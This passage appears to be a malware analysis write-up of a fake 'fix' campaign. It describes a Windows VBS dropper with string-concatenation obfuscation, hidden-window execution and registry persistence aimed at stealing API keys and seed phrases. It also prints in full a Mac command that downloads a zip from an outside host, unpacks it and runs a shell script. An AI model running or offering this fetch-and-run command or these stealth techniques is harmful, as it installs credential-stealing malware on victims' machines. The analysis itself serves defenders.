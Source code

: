 ![here](./screenshots/fixed.zip.png).

**What the VBS script does:**

1. **Stage 1:** Extracts `dll.zip` using `tar -xf` command
2. **Stage 2:** Executes `chost.exe audiodriver.py` (runs in background)
3. **Obfuscation:** Uses string concatenation to hide commands (`"ch" & "ost.exe"`)
4. **Stealth:** Runs commands with hidden windows (`0` parameter)

There's a couple compiled binaries in there which is safe to assume are likely looking for anything to get their hands one, e.g. API keys, seed phrases, etc.

I looked at the python code, and they're putting in registry entries to start the binaries at startup, so this is malicious payload will be scanning the system continuously for anything of value.

### Mac Payload

The malicious command that gets executed on Mac systems:

```bash
curl -k -o "/tmp/fixed.zip" "https://auto-ai.online/cam-v-257.fix" && unzip -o "/tmp/fixed.zip" -d "/tmp/fixed" && chmod +x "/tmp/fixed/update.sh" && "/tmp/fixed/update.sh"
```

I didn't download the Mac payload but safe to assume it operates similarly.
